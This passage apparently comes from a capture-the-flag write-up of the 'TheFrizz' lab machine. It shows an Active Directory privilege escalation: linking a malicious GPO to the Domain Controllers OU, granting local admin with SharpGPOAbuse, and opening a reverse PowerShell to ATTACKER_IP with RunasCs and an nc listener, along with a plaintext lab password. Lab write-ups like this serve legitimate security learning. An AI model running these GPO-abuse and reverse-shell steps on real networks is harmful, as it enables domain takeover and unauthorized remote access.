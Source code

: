 And link it to the `DOMAIN CONTROLLERS` OU.

```
PS C:\Users\M.SchoolBus\AppData\Local\Temp> New-GPLink -Name MaliciousGPO -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB"

GpoId       : fe31cf74-b10c-40e7-88be-57a53f2ac036
DisplayName : MaliciousGPO
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

I then use `SharpGPOAbuse` to modify the Malicious GPO to add user `M.SchoolBus` as a local Admin.

```
PS C:\Users\M.SchoolBus\AppData\Local\Temp> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount m.schoolbus --GPOName 'MaliciousGPO'
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of m.schoolbus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "MaliciousGPO" is: {FE31CF74-B10C-40E7-88BE-57A53F2AC036}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{FE31CF74-B10C-40E7-88BE-57A53F2AC036}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

`gpupdate /force` forces the GPO to be applied immediately.

```
PS C:\Users\M.SchoolBus\AppData\Local\Temp> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

A `nc` listener is started on the attack host.

```
fcoomans@kali:~/htb/thefrizz$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
```

And `RunAsCs` is used to start a reverse shell as user `M.SchoolBus`.  Remember that the new process will be started as user `M.SchoolBus`, who now has Administrator privileges.

```
PS C:\Users\M.SchoolBus\AppData\Local\Temp> .\RunasCs.exe m.schoolbus '!suBcig@MehTed!R' powershell.exe -r ATTACKER_IP:4444

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-1acd78$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 1544 created in background.
```
